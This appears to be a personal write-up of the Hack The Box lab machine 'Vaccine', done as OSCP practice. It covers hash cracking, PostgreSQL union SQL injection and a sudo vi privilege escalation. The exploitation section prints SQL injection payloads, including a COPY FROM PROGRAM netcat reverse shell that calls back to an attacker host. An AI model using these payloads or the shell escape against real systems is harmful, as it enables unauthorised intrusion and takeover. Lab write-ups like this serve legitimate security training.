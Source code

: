 ```yaml
---
title:  "Vaccine - Penetration Testing Write-Up"
layout: post
---
```


# Vaccine – Penetration Testing Write-Up

## Introduction

Write-up number 2, here we go! This one was a little more in depth than the last and I felt the intended paths were shorter and lot more frequent. HTB wanted us to look at the tool `sqlmap` but this is an automated exploitation tool which is not allowed on the OSCP, I spent quite some time exploring the different methods to exploit vulnerable postgres servers and learned a lot along the way!

---

## Information Gathering

### Target Discovery

Here we started with a basic nmap scan `nmap -sC -sV {target_ip}`
![](https://i.imgur.com/y9S4MaQ.png)


### Service Enumeration

It does look like we have a few services open
21 - FTP with Anonymous login allowed
22 - SSH
80 - HTTP with an Apache server running


---

## Enumeration

### Port 80 - HTTP
Looks like we are greeted with a login page. I tried a few basic credentials, simple sql injection (because of the boxes tags), and took a look at the cookies. Nothing I want to spend a ton of time on just yet.
![](https://i.imgur.com/QbHWQiU.png)

### Port 21 - FTP

Something a little more interesting, and most likely the intended pathway. If you ignore me trying to learn `tnftp` we're greeted with a backup.zip file. Lets check it out!
![](https://i.imgur.com/8EYumjz.png)

It looks like we are going to need to crack the password (the tags again).
![](https://i.imgur.com/TvQfYed.png)

After some research, for us to use John The Ripper on a zip file, we're going to need to get the hash that we're going to crack using another tool called `zip2john`
![](https://i.imgur.com/PKP5EKh.png)

With the new file, we can pass that into John The Ripper and quickly find the password to the zip file.
![](https://i.imgur.com/B0yRIut.png)

We're greeted with two files, a php files and a stylesheet. I'll be honest, I didn't even look at the css file. 
But here is something interesting, from the php file, this looks like the login portal we saw earlier and the program is is checking to see if the md5 of the password submitted equals a specific hash. Let's bring our new friend back out!
![](https://i.imgur.com/JtPgtuR.png)

I set the formatting to md5 and a file with hash and no other arguments. This session stopped after a few minutes. I probably could have checked against another word list or something else. But I saw the opportunity to use my main rig, for cracking this.
![](https://i.imgur.com/dbiPW4U.png)

I used hashcat in the past, but it's been a while. So I downloaded that, and the rockyou password list, after about 1.5 ms, we found the password!
![](https://i.imgur.com/HWu6bDy.png)


---

## Exploitation

Now, one of the tags was sql injection, this page only has a single search field. I could have scanned with gobuster or burp, but this seemed like the intended path.
![](https://i.imgur.com/EIRFx7s.png)

The tasks for this box wanted us to use `sqlmap` but, that is a auto-exploiting tool and will get your test thrown out if you use it on the OSCP. Additionally, sql injection seems like a valuable skill to hone early on. I spent quite a bit of time on learning the different methods to do this. In particular the [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings) Repo was a huge help and so was [OWASP's](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection) guide!

Eventually, after *some* trial and error, was able to get confirmation that the site was vulnerable to sql injection with this command. 
```
http://10.129.193.163/dashboard.php?search=elixir' UNION SELECT 1, version(), 't', 't', 't'--
```

Which gave me the output:
```
PostgreSQL 11.7 (Ubuntu 11.7-0ubuntu0.19.10.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.2.1-9ubuntu2) 9.2.1 20191008, 64-bit
```


I moved on to enumerating different directories to find some information, here I was able to identify the user flag, as well as an ssh key.
```
http://10.129.193.163/dashboard.php?search=elixir' UNION SELECT 1, pg_ls_dir('../../'), 't', 't', 't'--
```

![](https://i.imgur.com/Fc9IZ8I.png)

Unfortunately, I was not able to ssh in this way. So I had to dig a bit deeper.
![](https://i.imgur.com/UWoyXEZ.png)

About now, is when I started to really understand what I was doing with the union based injection and again, thanks to PayloadAllTheThings, I was able to establish a reverse shell with netcat and the two following commands.
```
http://10.129.193.163/dashboard.php?search=elixir'; CREATE TABLE shell(output text);--

http://10.129.193.163/dashboard.php?search=elixir'; COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.190 1337 >/tmp/f';--
```

---

## Privilege Escalation

Just like that, we were to establish a reverse shell to the postgres user. This shell was really finicky. The connection closed frequently, it wasn't fully interactive, every time it closed I had to use the last sql injection. I tried to do a few things to get a foothold, I tried to get new ssh keys and change the permissions, run linpeas, and a few other methods. Eventually, I did some more digging and and found credentials for the postgres user.
![](https://i.imgur.com/YrzRyga.png)

This allowed me to ssh in as postgres and establish a clean foothold as well as continue my priv esc. The next task hinted at programs the postgres user can run as root using sudo. I've delt with something like this in the past, and after a couple quick google searches, using the command `sudo -l` lists exactly this. Here we were able to identify that the postgres user can run sudo for the program vi, but on on the `pg_nba.conf` file.
![](https://i.imgur.com/0QMw5U9.png)

although linpeas was not working in the netcat shell very well, it may have been helpful to point me at the vi exploit here. However, after a bit of searching around, I and later learned in the write up, about the repository https://gtfobins.github.io/ (as well as https://lolbas-project.github.io/# for windows) which contains privilege escalation techniques and so much more for out of the box programs. After a bit of trial and error. I was able to escalate my privileges by using the command 
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Followed by the commands described in the vi exploit:
```bash
:set shell=/bin/sh
:shell
```

This gave me a root shell, and I was able to quickly snag the root flag.
![](https://i.imgur.com/R35iaBH.png)

---

## Outcome

Thank you for taking to time to read, or at least skim through this post. This box took some time, but I learned quite a bit along the way. Skipping `sqlmap` allowed me to deep dive into different techniques for sql injection. I also had no idea how many privilege escalation techniques there were. During this time I also tried out a more structured note taking technique that I found from [QuirkyKirkHax](https://www.youtube.com/watch?v=gXFTM3fRqIg) that structured things in a way that I am a fan of, I think I will build and modify that as I go forward.

---

## Notes

Once again, I did want to take a look at the write up to see what I missed or anything interesting.
- We took similar routes at the beginning, they looked at the ftp server first, but they also used both John and hashcat. 
- For one they used the `hashid` program. I just assumed since we were comparing the md5 of the encrypted input the hash was going to be md5.
- The `sqlmap` seems pretty handy, and maybe more helpful as things get more complex, but it still did require some work to set up

---

